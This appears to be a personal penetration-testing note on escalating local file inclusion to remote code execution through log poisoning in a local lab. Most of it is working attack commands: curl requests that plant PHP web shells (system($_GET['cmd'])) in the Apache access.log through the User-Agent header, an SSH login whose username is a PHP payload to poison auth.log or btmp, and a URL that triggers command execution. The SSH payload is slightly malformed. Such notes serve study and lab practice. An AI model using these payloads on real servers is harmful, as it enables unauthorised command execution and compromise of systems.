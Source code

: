 
# Definition

How to convert the [[LFI]] to RCE (Remote Code Execution) using the log of the system

---

# Apache2

In /var/log exists **access.log** that all the request that you doing 

You can try to change the user-agent

> curl -s -X GET "http://localhost/probando" -H "User-Agent: Probando"

If the website interpret php and the function system is enable you can inject command:

You can try if the function system is enabled, you can inject this:

````bash
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo() ?>"
````

In the table you can search by **disable_functions** and see if system or another is off

> curl -s -X GET "http://localhost/probando" -H "User-Agent: \<?php system('whoami'); ?>"

And then insert a parameter to inject command with the explorer:

````bash
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
````

---

# SSH

Normally the file in this case is **/var/log/auth.log**
Or
Other file that is called **btmp**

==Important==
This work** if others can read of this file** you can try to connect with ssh like this:

In my case i have to add the user www-data to the group **utmp** with this comand
````bash
usermod -a -G utmp www-data
````

And restart the service apache2

````php
ssh '?php system($_GET['cmd']); ?>'@172.17.0.2
````



And in the explore put this url:

> http://localhost/index.php?filename=/var/log/btmp&cmd=id


---

# Tags

#logpoisoning #lfi #rce

---
